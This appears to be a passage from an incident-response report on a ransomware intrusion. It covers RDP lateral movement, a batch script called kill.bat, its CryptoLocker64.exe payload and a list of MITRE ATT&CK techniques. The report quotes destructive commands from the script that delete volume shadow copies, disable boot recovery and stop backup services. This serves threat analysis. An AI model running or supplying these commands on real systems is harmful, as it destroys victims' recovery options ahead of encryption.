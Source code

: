 

From a file server, the threat actors then established RDP connections to all the machines in the environment.  The threat actors transferred 2 files onto the machines they connected to. A batch script named kill.bat and a ransomware executable CryptoLocker64.exe.

The batch script is responsible for deletion of volume shadow copies, turning off automatic repairs and stopping all the running services on the host. Some of the commands are as follows:
- sc  config "Netbackup Legacy Network service" start= disabled
- bcdedit  /set {default}
- bcdedit  /set {default} recoveryenabled No 
- vssadmin.exe  Delete Shadows /all /quiet
- wmic.exe  Shadowcopy Delete
- net  stop "Zoolz 2 Service" /y
- net  stop "Veeam Backup Catalog Data Service" /y
- net  stop "Symantec System Recovery" /y
- net  stop "SQLsafe Filter Service" /y
- net  stop "SQLsafe Backup Service" /y
- net  stop "SQL Backups" /y
- net  stop "Acronis VSS Provider" /y
- net  stop VeeamDeploySvc /y
- net  stop BackupExecVSSProvider /y
- net  stop BackupExecRPCService /y
- net  stop BackupExecManagementService /y
- net  stop BackupExecJobEngine /y
- net  stop BackupExecDeviceMediaService /y

After completion of this activity, the ransomware binary was executed manually over the RDP connections.



From the threat actors starting their ping sweep, to final host encryption, about an hour passed leaving behind the ransom note for the organization to find. The threat actors went from initial access to domain wide ransomware in just under two days.

# MITRE ATT&CK DATASET
Spearphising Link – T1566.002
BITS Jobs – T1197
Kerberoasting – T1558.003
AS-REP Roasting – T1558.004
Credentials in Registry – T1552.002
Remote Desktop Protocol – T1021.001
Exfiltration to Cloud Storage – T1567.002
OS Credential Dumping – T1003
SMB/Windows Admin Shares – T1021.002
System Owner/User Discovery – T1033
Network Service Scanning – T1046
Process Injection – T1055
PowerShell – T1059.001
Domain Groups – T1069.002
File and Directory Discovery – T1083
Access Token Manipulation – T1134
Network Share Discovery – T1135
Domain Trust Discovery – T1482
Data Encrypted for Impact – T1486
Disable or Modify Tools – T1562.001
Valid Accounts – T1078

